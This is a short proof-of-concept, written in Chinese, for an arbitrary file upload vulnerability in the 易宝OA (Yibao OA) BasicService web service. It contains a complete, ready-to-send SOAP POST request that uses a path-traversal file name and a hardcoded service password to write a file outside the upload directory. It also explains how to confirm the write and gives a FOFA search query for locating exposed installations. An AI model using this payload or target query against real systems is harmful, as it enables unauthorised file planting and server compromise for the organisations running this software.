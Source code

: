 ```
POST /WebService/BasicService.asmx  HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: text/xml; charset=utf-8
Content-Length: 501

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadPersonalFile xmlns="http://tempuri.org/">
      <fs>MTIzNA==</fs>
      <FileName>../../manager/2.txt</FileName>
      <webservicePassword>{ac80457b-368d-4062-b2dd-ae4d490e1c4b}</webservicePassword>
    </UploadPersonalFile>
  </soap:Body>
</soap:Envelope>
```

出现如下数据代表漏洞存在：url+2.txt

![image-20240729092805340](易宝OA 存在BasicService存在任意文件上传漏洞.assets/image-20240729092805340.png)

***\*fofa:\****title="欢迎登录易宝OA系统" || banner="易宝OA"